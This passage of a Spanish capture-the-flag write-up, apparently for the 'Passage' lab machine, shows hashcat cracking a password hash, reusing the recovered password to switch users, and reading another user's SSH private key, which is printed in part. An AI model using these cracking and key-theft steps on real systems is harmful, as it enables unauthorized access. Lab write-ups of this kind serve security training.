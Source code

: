 ```bash
–» hashcat -m 1400 -a 0 hashes -o result /usr/share/wordlists/rockyou.txt
–» cat result 
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1
```

Perfecto, si usamos esa contraseña para movernos al usuario `paul` logramos obtener su sesión:

```bash
www-data@passage:/var/www/html/CuteNews/cdata/users$ su paul
su paul
Password: atlanta1

paul@passage:/var/www/html/CuteNews/cdata/users$ cd
cd
paul@passage:~$ ls
ls
Desktop    Downloads         Music     Public     user.txt
Documents  examples.desktop  Pictures  Templates  Videos
```

Ahora puedo pensar que debemos migrar al usuario `nadav`... A darle.

...

## Movimiento lateral [#](#movimiento-lateral) {#movimiento-lateral}

En nuestro `/home` tenemos archivos `SSH`, si miramos detenidamente que llaves tienen permitido el acceso, tenemos:

```bash
paul@passage:~/.ssh$ ls -la                                                                     
ls -la                                                                                          
total 24                                                                                        
drwxr-xr-x  2 paul paul 4096 Jul 21 10:43 .                                                     
drwxr-x--- 16 paul paul 4096 Sep  2 07:18 ..                                                    
-rw-r--r--  1 paul paul  395 Jul 21 10:43 authorized_keys       
-rw-------  1 paul paul 1679 Jul 21 10:43 id_rsa                
-rw-r--r--  1 paul paul  395 Jul 21 10:43 id_rsa.pub            
-rw-r--r--  1 paul paul 1312 Jul 21 10:44 known_hosts           
```

```bash
paul@passage:~/.ssh$ cat authorized_keys                                                        
cat authorized_keys                                                                             
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage
```

```bash
paul@passage:~/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAs14rHBRld5fU9oL1zpIfcPgaT54Rb+QDj2oAK4M1g5PblKu/
+L+JLs7KP5QL0CINoGGhB5Q3aanfYAmAO7YO+jeUS266BqgOj6PdUOvT0GnS7M4i
Z2Lpm4QpYDyxrgY9OmCg5LSN26Px948WE12N5HyFCqN1hZ6FWYk5ryiw5AJTv/kt
rWEGu8DJXkkdNaT+FRMcT1uMQ32y556fczlFQaXQjB5fJUXYKIDkLhGnUTUcAnSJ
JjBGOXn1d2LGHMAcHOof2QeLvMT8h98hZQTUeyQA5J+2RZ63b04dzmPpCxK+hbok
sjhFoXD8m5DOYcXS/YHvW1q3knzQtddtqquPXQIDAQABAoIBAGwqMHMJdbrt67YQ
eWztv1ofs7YpizhfVypH8PxMbpv/MR5xiB3YW0DH4Tz/6TPFJVR/K11nqxbkItlG
QXdArb2EgMAQcMwM0mManR7sZ9o5xsGY+TRBeMCYrV7kmv1ns8qddMkWfKlkL0lr
lxNsimGsGYq10ewXETFSSF/xeOK15hp5rzwZwrmI9No4FFrX6P0r7rdOaxswSFAh
zWd1GhYk+Z3qYUhCE0AxHxpM0DlNVFrIwc0DnM5jogO6JDxHkzXaDUj/A0jnjMMz
R0AyP/AEw7HmvcrSoFRx6k/NtzaePzIa2CuGDkz/G6OEhNVd2S8/enlxf51MIO/k
7u1gB70CgYEA1zLGA35J1HW7IcgOK7m2HGMdueM4BX8z8GrPIk6MLZ6w9X6yoBio
```